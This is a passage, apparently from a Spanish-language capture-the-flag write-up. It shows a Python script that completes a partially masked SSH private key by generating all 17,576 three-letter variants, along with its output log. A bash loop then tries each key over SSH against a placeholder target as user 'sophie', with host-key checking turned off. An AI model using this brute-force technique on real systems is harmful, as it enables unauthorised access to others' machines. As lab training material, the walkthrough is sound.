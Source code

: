 ```python
    for combo in itertools.product("ABCDEFGHIJKLMNOPQRSTUVWXYZ", repeat=3):
        replacement = ''.join(combo)
        key_data = original_key.replace("***", replacement)
        filename = os.path.join(output_dir, f"key_{replacement}.key")
        with open(filename, "w") as f:
            f.write(key_data)
        count += 1
        if count % 1000 == 0:
            print(f"[+] Generadas {count} claves...")
    print(f"[✔] Finalizado. Total de claves: {count}")

if __name__ == "__main__":
    generate_keys()
```

```shell
chmod +x generateRSA.py
mkdir keys
python3 generateRSA.py
```

Info:

```
[+] Generadas 1000 claves...
[+] Generadas 2000 claves...
[+] Generadas 3000 claves...
[+] Generadas 4000 claves...
[+] Generadas 5000 claves...
[+] Generadas 6000 claves...
[+] Generadas 7000 claves...
[+] Generadas 8000 claves...
[+] Generadas 9000 claves...
[+] Generadas 10000 claves...
[+] Generadas 11000 claves...
[+] Generadas 12000 claves...
[+] Generadas 13000 claves...
[+] Generadas 14000 claves...
[+] Generadas 15000 claves...
[+] Generadas 16000 claves...
[+] Generadas 17000 claves...
[✔] Finalizado. Total de claves: 17576
```

> bruteRSA.py

```bash
#!/bin/bash

IP="<IP_DEL_OBJETIVO>"
USER="sophie"
KEY_DIR="./keys"

for key in "$KEY_DIR"/*.key; do
    echo "Probando clave: $key"
    ssh -i "$key" -o StrictHostKeyChecking=no -o ConnectTimeout=5 "$USER@$IP" exit
    if [ $? -eq 0 ]; then
        echo "[+] Clave válida encontrada: $key"
        exit 0
    else
        echo "[-] Clave incorrecta o error"
    fi
done
```

